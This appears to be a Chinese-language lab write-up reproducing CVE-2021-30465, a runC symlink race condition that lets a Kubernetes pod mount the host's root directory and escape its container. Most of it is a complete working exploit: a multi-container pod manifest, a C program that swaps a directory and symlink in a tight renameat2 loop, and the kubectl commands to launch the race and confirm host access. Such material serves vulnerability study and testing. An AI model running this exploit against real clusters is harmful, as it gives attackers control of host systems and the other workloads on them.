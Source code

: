 # runC漏洞导致容器逃逸（CVE-2021-30465）

## 场景介绍

runC是一个CLI工具，用于根据OCI规范生成和运行容器，该工具被广泛的应用于各种虚拟化环境中，如Kubernetes。

该漏洞是由于挂载卷时，runC不信任目标参数，并将使用 “filepath-securejoin” 库来解析任何符号链接并确保解析的目标在容器根目录中，但是如果用符号链接替换检查的目标文件时，可以将主机文件挂载到容器中。黑客可利用该漏洞能将宿主机目录挂载到容器中，来实现容器逃逸。

## 漏洞详情

在容器层面挂载卷和挂载目录是不一样的。

挂载目录，对容器来说，只是简单把目录与容器的目录做映射绑定，而目录的权限还是在主机，需要用户自制维护，手动处理权限等问题。

卷 (Volume) 是受控存储，挂载卷后是由容器引擎进行管理维护的，也就是把对应卷的所有权交给了容器引擎（本次漏洞的核心点）

正常定义卷A之后 ，若a容器挂载了卷A，那它同时也挂载了卷A下面的目录。

当a容器起来后，恶意程序疯狂的在挂载的目录下刷新软连接与目录的关系。与此同时若b容器也像a容器一样挂载了相同中的卷和对应卷下面的目录。

因为卷所有权这个时候是在引擎内，并且a容器相同卷下的目录还在刷新软连接（相同于创建软连接）这个时间在容器引擎内部就会存在资源竞争，形成了漏洞。

## 环境搭建

漏洞环境准备：

```bash
# docker
./metarget cnv install cve-2021-30465
# k8s
./metarget gadget install k8s --version 1.16.5 --domestic
```

## 漏洞复现

因为是利用竞争条件来进行利用的，有很大概率失败的。

### 步骤一：创建攻击Pod

```bash
sudo kubectl create -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
    name: attack
spec:
    terminationGracePeriodSeconds: 1
    containers:
    - name: c1
      image: ubuntu:latest
      command: [ "/bin/sleep", "inf" ]
      env:
      - name: MY_POD_UID
        valueFrom:
          fieldRef:
            fieldPath: metadata.uid 
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test2
$(for c in {2..20}; do
cat <<EOC
    - name: c$c
      image: donotexists.com/do/not:exist
      command: [ "/bin/sleep", "inf" ]
      volumeMounts: #容器内挂载点
        - name: test1 #宿主机目录名
          mountPath: /test1 #容器内目录名
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
EOC
done
)
    volumes:
      - name: test1 #宿主机目录名
        emptyDir: #宿主机挂载点
          medium: "Memory"
      - name: test2
        emptyDir:
          medium: "Memory"
EOF
```

### 步骤二：编译恶意程序

保存以下代码为`race.c`文件并编译`gcc race.c -o race`:

```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/syscall.h>

#ifndef RENAME_EXCHANGE
#define RENAME_EXCHANGE (1 << 1) 
#endif

int main(int argc, char *argv[]) {
    if (argc != 4) {
        fprintf(stderr, "Usage: %s name1 name2 linkdest\n", argv[0]);
        exit(EXIT_FAILURE);
    }
    char *name1 = argv[1], *name2 = argv[2], *linkdest = argv[3];

    int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);
    if (dirfd < 0)
        exit(EXIT_FAILURE);

    if (mkdir(name1, 0755) < 0)
        perror("mkdir failed");
    if (symlink(linkdest, name2) < 0)
        perror("symlink failed");

    while (1)
        syscall(SYS_renameat2, dirfd, name1, dirfd, name2, RENAME_EXCHANGE);
}
```

### 步骤三：执行恶意程序

将恶意程序拷贝至c1容器内执行：

```bash
kubectl cp race -c c1 attack:/test1/
```

然后进去容器创建符号链接：

```bash
sudo kubectl exec -it attack -c c1 bash
ln -s / /test2/test2
```

进入/test1目录下执行程序：

```bash
seq 1 4 | xargs -n1 -P4 -I{} ./race mnt{} mnt-tmp{} /var/lib/kubelet/pods/$MY_POD_UID/volumes/kubernetes.io~empty-dir/
```

接着更新c2-c20的容器镜像为合法镜像。新打开一个终端，执行以下命令更新镜像，一旦更新，pod会尝试创建容器。

```bash
for c in {2..20}; do
  sudo kubectl set image pod attack c$c=ubuntu:latest
done
```

执行以下命令查看漏洞是否利用成功：

```bash
for c in {2..20}; do
  echo ~~ Container c$c ~~
  sudo kubectl exec -ti pod/attack -c c$c -- ls /test1/zzz
done
```

若利用成功，会打印出/test1/zzz目录下的内容，也即宿主机根目录的内容：

![image.png](images/1.png)

## 参考文献

1. https://blog.champtar.fr/runc-symlink-CVE-2021-30465/
2. https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ